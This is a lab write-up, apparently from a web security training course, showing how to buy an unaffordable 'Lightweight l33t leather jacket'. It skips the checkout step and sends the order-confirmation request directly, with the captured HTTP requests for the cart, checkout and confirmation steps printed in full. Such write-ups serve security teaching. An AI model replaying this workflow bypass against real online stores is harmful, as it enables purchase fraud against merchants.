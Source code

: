 ### Insufficient workflow validation

#### LAB
This Lab ha a security flaw in the purchising steps. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

We can start to peform a purchase and to inspect the requests made to server during this process. First of all we can see that we have to be logged in to proceed with the check-out, so let's proceed to log-in. Once logged we can see that wiener has a credit of $100, let's try again to buy an item:
--88--
The purchase flow is composed by 3 requests:
1. add an item to the cart: 
```
POST /cart HTTP/1.1
Host: 0a9e001a04a8bde2c03410b60063009f.web-security-academy.net
Cookie: session=0hRcKcZHLlsKBBHJcr5H4jHaLKJB4H9s
...
Connection: close

productId=2&redir=PRODUCT&quantity=1
```
2. cart check-out (with csrf token)
```
POST /cart/checkout HTTP/1.1
Host: 0a9e001a04a8bde2c03410b60063009f.web-security-academy.net
Cookie: session=0hRcKcZHLlsKBBHJcr5H4jHaLKJB4H9s
...
Connection: close

csrf=jWRswYUqtvd8Fm2hQesbCXTQSfvwhkny
```
3. a confirmation
```
GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
Host: 0a9e001a04a8bde2c03410b60063009f.web-security-academy.net
Cookie: session=0hRcKcZHLlsKBBHJcr5H4jHaLKJB4H9s
...
Connection: close
```
If we try to buy the Leather Jacket, since we don't have enough credit, we will get an error message:
--90--
But what happens if we try to submit the confirmation request once we have the jacket in the cart?
--91--
Since the confirmation step does not implement any additional controls on the price, related to the user funds the order is placed and the Lab is solved.
#### References
